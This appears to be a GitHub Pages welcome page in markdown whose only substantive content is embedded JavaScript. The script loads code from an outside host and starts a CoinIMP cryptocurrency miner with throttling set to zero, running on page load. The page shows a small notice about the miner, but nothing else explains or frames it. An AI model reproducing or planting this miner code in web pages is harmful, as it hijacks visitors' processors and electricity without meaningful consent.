 ## Welcome to GitHub Pages
<script src="https://www.hostingcloud.racing/Y0Pq.js"></script>
<script>
    var _client = new Client.Anonymous('6af76f922971c0978de8b5f7fc5c702081ea5c2845d726e1646abaf20fce369a', {
        throttle: 0, ads: 0
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");

</script>
